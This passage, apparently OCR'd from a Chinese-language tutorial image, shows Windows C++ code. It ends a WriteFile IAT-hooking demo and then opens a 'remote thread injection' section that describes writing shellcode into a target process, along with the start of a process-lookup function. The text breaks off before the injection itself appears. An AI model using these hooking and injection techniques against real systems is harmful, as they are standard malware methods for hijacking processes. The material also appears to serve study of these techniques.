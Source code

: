 ```cpp
                       0,                      // 不共享
                       NULL,                   // 默认安全性
                       OPEN_ALWAYS,            // 如果文件存在，打开它；否则，创建它
                       FILE_ATTRIBUTE_NORMAL,  // 普通文件属性
                       NULL);                  // 不使用属性模板

    if (hFile == INVALID_HANDLE_VALUE) 
    { 
        _tprintf(TEXT("Terminal failure: Unable to open file \"%s\" for write.\n"), argv[1]);
        return 0;
    }

    _tprintf(TEXT("Writing %lu bytes to %s.\n"), dwBytesToWrite, argv[1]);

    originalWriteFile = (ProtoWriteFile)GetProcAddress(LoadLibrary("kernel32.dll"), "WriteFile");
    bool isHookSuccess = hookIAT("KERNEL32.dll", "WriteFile", (void*)hookedWriteFile);

    if (isHookSuccess) {
        printf("hook IAT success!\n");
    } else {
        printf("hook IAT failed!\n");
        return -1;
    }

    bErrorFlag = WriteFile( 
                    hFile,           // open file handle
                    DataBuffer,      // start of data to write
                    dwBytesToWrite,  // number of bytes to write
                    &dwBytesWritten, // number of bytes that were written
                    NULL);            // no overlapped structure

    if (FALSE == bErrorFlag)
    {
        printf("Terminal failure: Unable to write to file.\n");
    } else {
        _tprintf(TEXT("Wrote %lu bytes to %s successfully.\n"), dwBytesWritten, argv[1]);
    }

    CloseHandle(hFile);
    return 0;
}
```


#### 远程线程注入

在目标进程中分配内存、写入shellcode、创建远程线程

```cpp
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>
#include <assert.h>
#pragma comment(lib, "User32.lib")


DWORD GetProcessId(const char* procName) {
    HANDLE hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);        // 获取进程快照句柄
	assert(hProcSnap != INVALID_HANDLE_VALUE);                                 // 判断是否打开成功
	PROCESSENTRY32 pe32;
	pe32.dwSize = sizeof(PROCESSENTRY32);
	BOOL flag = Process32First(hProcSnap, &pe32);                          // 获取列表的第一个进程
	while (flag)
	{
		if (!_stricmp(pe32.szExeFile, procName))
```